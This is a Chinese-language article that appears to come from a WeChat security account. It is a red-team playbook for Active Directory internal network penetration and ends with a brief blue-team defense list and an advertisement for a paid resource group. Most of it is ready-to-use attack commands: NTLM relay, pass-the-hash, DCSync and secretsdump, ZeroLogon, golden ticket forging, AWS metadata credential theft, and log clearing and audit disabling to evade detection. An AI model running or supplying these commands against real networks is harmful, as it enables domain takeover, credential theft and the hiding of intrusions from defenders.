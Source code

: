 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MjM5OTk4MDE2MA==&mid=2655286418&idx=1&sn=19c59ac91137906ccde3b5156e683303

#  红队攻防内网渗透  
原创 计算机与网络安全  计算机与网络安全   2025-07-10 23:57  
  
### 红队在内网渗透中的核心目标是模拟高级攻击者，绕过防御体系横向移动，最终夺取关键资产（如域控、数据库、核心业务系统）。  
###   
### 一、前期准备  
###   
1. **权限维持**  
  
1. 植入Webshell/内存马（如Godzilla、Behinder）  
  
1. 部署隐蔽持久化后门（计划任务、服务、WMI事件订阅）  
  
1. 窃取凭据：
```
Mimikatz
```

  
（sekurlsa::logonpasswords）、
```
LaZagne
```

  
  
1. **信息收集**  
  

```
# 网络拓扑
arp -a & route print
# 主机发现
for /L %i in (1,1,255) do @ping -n 1 192.168.1.%i | findstr &#34;TTL&#34;
# 域信息
nltest /domain_trusts & net group &#34;Domain Admins&#34; /domain
```

### 二、横向移动技术  
###   
#### （1）凭据中继攻击  
- **NTLM中继（Responder + Impacket）**  
  

```
python ntlmrelayx.py -t ldap://dc01 -smb2support --add-computer
```

- **Kerberos中继（KRB-RELay）**  
：针对启用RBAC的服务（如Exchange）  
  
####   
#### （2）利用协议缺陷  
- **LLMNR/NBT-NS投毒**  
：Responder捕获NetNTLMv2哈希  
  
- **AD CS漏洞**  
（ESC1-ESC11）：  
  

```
certipy req -u user@corp.local -p Password1 -target ca.corp.local -template VulnTemplate
```

#### （3）Pass-the-Hash/Ticket  
####   
- **PTH（Windows）**  
：  
  

```
crackmapexec smb 192.168.1.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:NT_HASH
```

- ### PTT（Linux）：  
  

```
export KRB5CCNAME=admin.ccache
impacket-psexec domain/admin@dc01 -k -no-pass
```

### 三、权限提升路径  
###   
1. **本地提权**  
  
1. 利用未修补内核漏洞（CVE-2021-4034, CVE-2022-0847）  
  
1. 服务路径劫持：
```
accesschk.exe -uwcqv &#34;Authenticated Users&#34; * /accepteula
```

  
  
1. **域内提权**  
  
1. **ACL滥用**  
：  
  

```
Add-ObjectAcl -TargetIdentity &#34;DC=corp,DC=local&#34; -PrincipalIdentity Attacker -Rights All
```

- **资源委派攻击**  
：约束委派->非约束委派黄金票据  
  
- **DCSync**  
：获取krbtgt哈希  
  

```
secretsdump.py corp/attacker@dc01 -just-dc
```

### 四、绕过防御机制  
###   
1. **对抗EDR/AV**  
  
1. 无文件攻击：PowerShell反射加载（
```
Invoke-ReflectivePEInjection
```

  
）  
  
1. 进程注入：
```
Process Hollowing
```

  
（合法进程内存替换）  
  
1. 签名劫持：利用微软签名的二进制执行代码（如
```
msbuild.exe
```

  
）  
  
1. **日志清除**  
  
1. 清除单条日志：
```
wevtutil cl Security /r:EventID==4688
```

  
  
1. 禁用审计策略：
```
auditpol /set /category:&#34;Account Logon&#34; /success:disable
```

  
  
###   
### 五、关键基础设施攻击  
###   
1. **域控攻陷**  
  
1. **ZeroLogon**  
（CVE-2020-1472）：  
  

```
python zerologon_tester.py dc01 192.168.1.10
secretsdump.py -no-pass dc01\$@192.168.1.10 -just-dc
```

- **PrintNightmare**  
（CVE-2021-34527）：远程加载恶意DLL  
  
###   
  
**2. 云环境渗透**  
- AWS：通过实例元数据服务窃取IAM角色凭证  
  

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

- Azure：利用Managed Identity滥用RBAC权限  
  
###   
### 六、痕迹清理与持久化  
###   
  
**1. 黄金票据**  
：  

```
ticketer.py -nthash krbtgt_nt_hash -domain-sid S-1-5-21-... -domain corp.local Administrator
```

  
**2. DCShadow攻击**  
：在内存中创建伪造域控同步恶意对象  
  
**3. 隐蔽通道**  
：  
1. DNS隧道（dnscat2）  
  
1. ICMP封装（ptunnel）  
  
###   
### 防御建议（蓝队视角）  

```
1. **网络分段**：严格限制VLAN间通信，核心区域仅允许必要端口
2. **凭据防护**：
   - 启用LSA保护（RunAsPPL）
   - 限制NTLM使用，强制Kerberos AES加密
3. **权限最小化**：
   - 禁用域管理员本地登录非域控
   - 定期审核ACL（BloodHound扫描）
4. **深度监控**：
   - 检测异常Kerberos请求（如4624事件中LogonType=9）
   - 监控PsExec/SMBexec的父进程链（通常非explorer.exe启动）
5. **补丁管理**：优先修复ADCS漏洞、Print Spooler漏洞
```

### 红队内网渗透本质是权限传递的艺术，需结合漏洞利用、协议滥用、社会工程。蓝队需打破"已授权=可信"的思维，采用零信任架构纵深防御。  
###   
### 完整文件已上传至星球。  
###   
### 近七天上传文件列表  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VcRPEU1K2ocyCFtWicAYqNEIONPxicmTEXtwcR5aJ10NKTpicPH4aOoqXMyImrWOTMYiaeu85AatTeiaAWq332dGDibw/640?wx_fmt=png&from=appmsg "")  
  
**扫码加入知识星球****：**  
**网络安全攻防（HVV）**  
  
**下载本篇和全套资料**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VcRPEU1K2ocrickwS8jlJmx9dm99x7cetyLS8ib43IBlZ9GpKnpibU4QV0ictAFUD0sudSt5FvXkqhPcfWSU1DgOXA/640?wx_fmt=jpeg "")  

```
HVV（红队蓝队资料、威胁情报、技战法）、渗透测试、漏洞、代码审计、APT、DDOS、勒索病毒、CTF、逆向
```


```


```

  
**|**  
 -  
  
